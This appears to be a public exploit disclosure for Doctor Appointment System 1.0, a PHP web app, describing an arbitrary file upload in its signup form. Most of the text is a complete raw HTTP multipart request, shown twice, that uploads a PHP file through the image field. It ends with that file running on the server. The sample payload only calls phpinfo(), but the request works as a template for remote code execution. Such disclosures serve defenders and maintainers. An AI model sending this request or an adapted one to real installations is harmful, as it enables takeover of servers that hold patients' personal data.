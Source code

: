 
# Doctor Appointment System 1.0 - Arbitrary File Upload
#### Exploit Title: Doctor Appointment System 1.0 - Arbitrary File Upload  
#### Version：Doctor Appointment System 1.0
#### Google Dork: N/A
#### Date: 26/08/2022
#### Software Link: `https://github.com/divScorp/Doctor-Appointment`

#### Description：Doctor Appointment System contain arbitrary file upload.Registered user can upload info.php files in attachments section with use of intercept tool in Burp Suite to edit the raw.
  
<br />

#### Payload used:
```
POST /Doctor-Appointment/Frontend/signup_com.php HTTP/1.1
Host: 127.0.0.1
Content-Length: 1075
Cache-Control: max-age=0
sec-ch-ua: "Chromium";v="97", " Not;A Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
Origin: http://127.0.0.1
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryMUqg4D3CexmmK7hZ
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.99 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://127.0.0.1/Doctor-Appointment/Frontend/signup.php
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=ebk63v668nqcrjjvss2a251i2t
Connection: close

------WebKitFormBoundaryMUqg4D3CexmmK7hZ
Content-Disposition: form-data; name="pname"

w
------WebKitFormBoundaryMUqg4D3CexmmK7hZ
Content-Disposition: form-data; name="email"

w@local.net
------WebKitFormBoundaryMUqg4D3CexmmK7hZ
Content-Disposition: form-data; name="pass"

w
------WebKitFormBoundaryMUqg4D3CexmmK7hZ
Content-Disposition: form-data; name="repass"

w
------WebKitFormBoundaryMUqg4D3CexmmK7hZ
Content-Disposition: form-data; name="age"

1
------WebKitFormBoundaryMUqg4D3CexmmK7hZ
Content-Disposition: form-data; name="phone"

1231231231
------WebKitFormBoundaryMUqg4D3CexmmK7hZ
Content-Disposition: form-data; name="gender"

M
------WebKitFormBoundaryMUqg4D3CexmmK7hZ
Content-Disposition: form-data; name="add"

w
------WebKitFormBoundaryMUqg4D3CexmmK7hZ
Content-Disposition: form-data; name="image"; filename="info.php"
Content-Type: application/octet-stream

<?php phpinfo();?>
------WebKitFormBoundaryMUqg4D3CexmmK7hZ
Content-Disposition: form-data; name="button"

Sign Up
------WebKitFormBoundaryMUqg4D3CexmmK7hZ--
```

<br />

#### Example：

1.User registration

http://127.0.0.1/Doctor-Appointment/Frontend/signup.php

![1.png](./1.PNG)

2.Send Payload
```
POST /Doctor-Appointment/Frontend/signup_com.php HTTP/1.1
Host: 127.0.0.1
Content-Length: 1075
Cache-Control: max-age=0
sec-ch-ua: "Chromium";v="97", " Not;A Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
Origin: http://127.0.0.1
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryMUqg4D3CexmmK7hZ
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.99 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://127.0.0.1/Doctor-Appointment/Frontend/signup.php
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=ebk63v668nqcrjjvss2a251i2t
Connection: close

------WebKitFormBoundaryMUqg4D3CexmmK7hZ
Content-Disposition: form-data; name="pname"

w
------WebKitFormBoundaryMUqg4D3CexmmK7hZ
Content-Disposition: form-data; name="email"

w@local.net
------WebKitFormBoundaryMUqg4D3CexmmK7hZ
Content-Disposition: form-data; name="pass"

w
------WebKitFormBoundaryMUqg4D3CexmmK7hZ
Content-Disposition: form-data; name="repass"

w
------WebKitFormBoundaryMUqg4D3CexmmK7hZ
Content-Disposition: form-data; name="age"

1
------WebKitFormBoundaryMUqg4D3CexmmK7hZ
Content-Disposition: form-data; name="phone"

1231231231
------WebKitFormBoundaryMUqg4D3CexmmK7hZ
Content-Disposition: form-data; name="gender"

M
------WebKitFormBoundaryMUqg4D3CexmmK7hZ
Content-Disposition: form-data; name="add"

w
------WebKitFormBoundaryMUqg4D3CexmmK7hZ
Content-Disposition: form-data; name="image"; filename="info.php"
Content-Type: application/octet-stream

<?php phpinfo();?>
------WebKitFormBoundaryMUqg4D3CexmmK7hZ
Content-Disposition: form-data; name="button"

Sign Up
------WebKitFormBoundaryMUqg4D3CexmmK7hZ--
```
<br />
3.Successfully executed phpinfo()

http://127.0.0.1/Doctor-Appointment/Frontend/imge/info.php

![2.png](./2.PNG)


















